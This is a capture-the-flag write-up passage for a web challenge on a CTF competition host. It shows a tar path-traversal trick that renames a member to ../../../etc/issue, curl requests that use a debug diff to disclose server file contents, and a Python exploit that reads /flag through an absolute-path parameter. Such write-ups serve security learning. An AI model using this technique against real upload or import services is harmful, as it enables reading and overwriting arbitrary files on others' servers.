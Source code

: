 ```shell
❯ tar cvfz a.tar.gz issue --transform 's,^,../../../etc/,'
issue

❯ tar tvfz a.tar.gz
tar: Removing leading `../../../' from member names
-rw-r--r-- gt/gt            50 2022-10-15 23:18 ../../../etc/issue

❯ curl -s http://path-less-traversed-web.h4ck.ctfcompetition.com/import\?submission\=1\&dryRun\=true \
    -F 'attachments=@a.tar.gz'
WARNING: file ../../etc/issue already exists and would get overwritten (enable debug to see differences)
```

Let's try that debug thing:

```shell
curl -s http://path-less-traversed-web.h4ck.ctfcompetition.com/import\?submission\=1\&dryRun\=true\&debug=true \
    -F 'attachments=@a.tar.gz'
WARNING: file ../../etc/issue already exists and would get overwritten (enable debug to see differences)
showing existing and new contents:
=====
< Welcome to Alpine Linux 3.16
< Kernel \r on an \m (\l)
<
<
-----
> *************************************************
>
=====
```

Yes!  The app shows us the diff between the remote file and the one in our tarball. While testing some more, I noticed that the submission `parameter` accepts absolute paths, so I didn't need to use the tar trick shown above.

Here is the final exploit I wrote using Python, I was extremely lucky to find the flag straight away in `/flag` :)

```python
#!/usr/bin/env python3

import io
import requests
import tarfile


URL = "https://path-less-traversed-web.h4ck.ctfcompetition.com/import"

fh = io.BytesIO()
with tarfile.open(fileobj=fh, mode='w:gz') as tar:
    info = tarfile.TarInfo('flag')
    info.size = 0
    tar.addfile(info, "")

files = {"attachments": fh.getvalue()}

r = requests.post(
    f"{URL}?submission=/&debug=true&dryRun=true",
    files=files)

print(r.text)
```
